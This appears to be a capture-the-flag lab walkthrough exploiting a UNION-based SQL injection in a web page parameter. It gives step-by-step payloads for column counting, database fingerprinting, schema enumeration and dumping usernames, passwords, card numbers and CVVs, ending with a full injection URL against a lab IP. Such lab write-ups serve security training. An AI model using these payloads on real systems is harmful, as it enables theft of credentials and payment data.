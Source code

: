 ```yaml
---
date: 2025-01-09
categories: [CTF, IML]
title: "IML - CVE-2019-7548 (SQLAlchemy)"
tags: ['john the ripper', 'privilege escalation', 'rce', 'sqli']

description: "CVE-2019-7548 (SQLAlchemy) - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - CVE-2019-7548 (SQLAlchemy)


![image1](../resources/104530e8ce9144b8a7ca03ac32614d0e.png)
- Firstly we can see that there is a parameter that might be vulnerable to SQLi

- To test it, we can use a ' to break it


![image2](../resources/d8bf8d75a94a4170a70d85c6b3ba5aad.png)

- From here I use the order by query to find out how many columns the table has (trial and error)
- It errors at 9 so the table has 8 columns


![image3](../resources/984207172f12488180dea99b65e72f19.png)

- Now we can do union select 1,2,3,4,5,6,7,8 because the UNION has to have the same number of columns as the current table
- It was trial and error to find where the values were being reflected but I found it on the last page (221)


![image4](../resources/45d4e42d268e4f15b847b63869a89c21.png)

- Now we know where it is being reflected, we can get some information

- First find the type of DB and version:
```bash
union select 1,2,3,4,5,6,7,@@version

```

![image5](../resources/f1c0775cca67428696907ffe913c20f1.png)


![image6](../resources/8044a757cc3b464fb34e869b2fc7a778.png)

- Answering the questions:


![image7](../resources/a2dd9612bc6748a585a84b6c592ff62f.png)

- First let's get the database name - and because it's MariaDB we use:
```bash
database()

```

![image8](../resources/7f234af64aac45ad8e1ff0f5c947d401.png)


![image9](../resources/dec72510ef8b447db6c52a9e5dd96063.png)

- We can now enumerate the tables with:
```bash
union select 1,2,3,4,5,6,7,group_concat(table_name) from information_schema.tables where table_schema="website"

```

![image10](../resources/6b0ecc57e49041fcb53f7cfe8362e3c6.png)


![image11](../resources/82862971d33e4232ac1702f82d18e392.png)

- From here we get the tables <u>transactions and users</u>

- First let's enumerate the table users:
```bash
union select 1,2,3,4,5,6,7,group_concat(column_name) from information_schema.columns where table_name="users"

```

![image12](../resources/145d79b48ef74c3dbcb21e5f71d3d5df.png)


![image13](../resources/555d41cda3044677835d147a5a471cca.png)

- Here we get the columns
id,firstName,lastName,country,username,email,password,cardNumber,cardIssuer,cardExpiry,cardCVV

- To read the columns we do:
```bash
union select 1,2,3,4,5,6,7,group_concat(username,0x2b,password) from users

```
This will read and concat the two columns: username and password. The 0x2b is a delimeter to make it more easily readable


![image14](../resources/4b86829c5e38449f975d1b0dafc6b90e.png)


![image15](../resources/7a89bc3750c74a5ab5453c7f45f549d0.png)

- To narrow it down do:
```bash
union select 1,2,3,4,5,6,7,group_concat(username,0x2b,password) from users where username="ywalsh"

```

![image16](../resources/de5d883935e541b8ac32e77470a54c04.png)


![image17](../resources/a120b72b04354575bee352859d7e0a86.png)
- Use the following:

```bash
union select 1,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardNumber) from users where lastname="Park" and firstName="Shelly"

```

![image18](../resources/d61564005d864108a738b68e5f912633.png)

- Use the following:
```bash
union select 1,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardCVV) from users where lastname="Elliott" and firstName="John"

```

![image19](../resources/c6b6ddc750aa47ba864f1e159c50b957.png)


![image20](../resources/6ff53b6b417f46ac9ddf011edf26bc22.png)

Full URL for this is:

[http://10.102.16.9/?page=221&group=email%20union%20select%201,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardCVV)%20from%20users%20where%20lastname=%22Elliott%22%20and%20firstName=%22John%22](http://.)